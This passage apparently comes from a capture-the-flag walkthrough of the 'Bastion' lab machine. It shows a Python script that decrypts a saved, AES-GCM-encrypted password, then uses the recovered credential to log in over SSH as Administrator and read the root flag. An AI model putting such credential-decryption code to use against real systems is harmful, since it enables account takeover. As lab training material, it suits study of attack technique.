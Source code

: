 ```python
  if args.file != None:
    with open(args.file) as f:
      encrypted_data = f.read()
      encrypted_data = encrypted_data.strip()
      encrypted_data = base64.b64decode(encrypted_data)

  elif args.string != None:
    encrypted_data = args.string
    encrypted_data = base64.b64decode(encrypted_data)

  else:
    print("Please use either the file (-f, --file) or string (-s, --string) flag")
    sys.exit(1)

  salt = encrypted_data[:16]
  associated_data = encrypted_data[:16]
  nonce = encrypted_data[16:32]
  ciphertext = encrypted_data[32:-16]
  tag = encrypted_data[-16:]
  key = hashlib.pbkdf2_hmac("sha1", args.password.encode(), salt, 1000, dklen=32)

  cipher = AES.new(key, AES.MODE_GCM, nonce=nonce)
  cipher.update(associated_data)
  plaintext = cipher.decrypt_and_verify(ciphertext, tag)
  print("Password: {}".format(plaintext.decode("utf-8")))

if __name__ == "__main__":
  main()
```

```bash
┌─[root@kali]─[~/bastion]
└──╼ #./decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
Password: thXLHM96BeKL0ER2
┌─[root@kali]─[~/bastion]
└──╼ #ssh Administrator@10.10.10.134
Administrator@10.10.10.134's password:
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

administrator@BASTION C:\Users\Administrator>
administrator@BASTION C:\Users\Administrator>cd Desktop

administrator@BASTION C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 0CB3-C487

 Directory of C:\Users\Administrator\Desktop

23-02-2019  09:40    <DIR>          .
23-02-2019  09:40    <DIR>          ..
23-02-2019  09:07                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  11.303.444.480 bytes free

administrator@BASTION C:\Users\Administrator\Desktop>type root.txt
958xxxxxxxxxxxxxxxxxxxxxxxxxx5c8
administrator@BASTION C:\Users\Administrator\Desktop>

```
